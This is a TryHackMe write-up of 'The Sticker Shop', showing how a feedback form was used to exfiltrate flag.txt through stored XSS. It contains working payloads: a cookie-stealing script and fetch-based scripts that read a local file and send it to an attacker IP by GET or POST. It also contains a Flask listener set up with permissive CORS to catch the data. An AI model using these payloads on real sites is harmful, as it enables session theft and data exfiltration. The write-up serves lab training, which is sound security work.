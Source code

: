```yaml
---
title: "The Sticker Shop"
date: 2024-11-29T16:02:41-06:00
draft: false
tags:
- THM
- XSS
- Web Exploitation
---
```


![The Sticker Shop](/img/the_sticker_shop/the_sticker_shop.png#center)

### Description
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-rated challenge on Tryhackme. We exfiltrate ```flag.txt``` from the web server through a XSS attack.


### Walkthrough
We are told that we need to read the flag at ```http://10.10.102.204:8080/flag.txt```. However, visiting the URL, we are met with a 401 Unauthorized message, meaning we are not authenticated to view the file.

![Direct access 401 forbidden](/img/the_sticker_shop/401.png)

If we backtrack to the webapp's homepage, we see that there is a page for submitting feedback where we can presumably send content to the sticker shop staff. This might be our way in.

![](/img/the_sticker_shop/feedback.png)

I started by sending a simple XSS payload to attempt to exfiltrate user cookies.

```html
<script>new Image().src="http://10.13.48.55/?c="+document.cookie</script>
```

```
┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.102.204 - - [29/Nov/2024 19:56:47] "GET /?c= HTTP/1.1" 200 -
10.10.102.204 - - [29/Nov/2024 19:56:58] "GET /?c= HTTP/1.1" 200 -
```

Unfortunately, this does not work. The webapp may have some sort of defense mechanism (e.g. HttpOnly). Heck, it may not be using cookies at all. Without further information, it will be difficult to obtain any account secrets, if they exist in the first place. We need to focus on directly accessing ```flag.txt``` through our XSS payload instead. 

A quick and dirty way of doing this would be embedding ```flag.txt```'s contents into a query string. Below is a payload that reads ```flag.txt``` on the server side and sends the data back to us with a GET request.

```html
<script>
    function sendData(data) {
        const url = new URL("http://10.13.48.55");
        url.searchParams.append("data", data);
        fetch(url)
            .then(response => response.text())
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data);
        })
        .catch(error => console.error('Error:', error));
</script>
```

![Quick and dirty GET flag](/img/the_sticker_shop/flag_get.png)

But what if you want to read a file that is much larger, or you don't want the data to be visible in the URL, perhaps for greater stealth? In that case, you would be better off using POST instead of GET.

```html
<script>
    function sendData(data){
        fetch("http://10.13.48.55", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(data)
        })
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data)
        })
</script>
```

The problem is that Python's simple HTTP server only supports GET and HEAD requests, and the sticker website is sending a preflight request, so netcat is out of the question as well...

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.102.204] 52614
OPTIONS / HTTP/1.1
Host: 10.13.48.55
Connection: keep-alive
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: http://127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

We need to respond appropriately in order to receive the POST request containing ```flag.txt```. Specifically, we need to respond with the correct ```Access-Control-Allow-Origin```, ```Access-Control-Allow-Methods```, and ```Access-Control-Allow-Headers``` headers.

```
Access-Control-Allow-Origin: Specifies what domains are allowed to access a resource.
Access-Control-Allow-Methods: Indicates which HTTP methods are allowed.
Access-Control-Allow-Headers: Represents the HTTP headers that are permitted.
```

Now to whitelist any host[^1], the HTTP POST and OPTIONS, as well as the Content-Type header. I spun up a Flask server to do this:

[^1]: The request from flag shop comes from a rando high port and there is no way to allow a single IP and any port on its.

```python
from flask import Flask, request


app = Flask(__name__)

@app.route('/', methods=['POST', 'OPTIONS'])
def handler():
    if request.method == 'OPTIONS':
        headers = {
                'Access-Control-Allow-Origin' : '*',
                'Access-Control-Allow-Methods' : 'POST, OPTIONS',
                'Access-Control-Allow-Headers' : 'Content-Type'
        }
        return '', 200, headers

    elif request.method == 'POST':
        data = request.get_json()
        print(data)
        return '', 200

	return '', 405

if __name__ == '__main__':
    app.run()
```

And now, we should successfully receive our flag.

![POST flag](/img/the_sticker_shop/flag.png)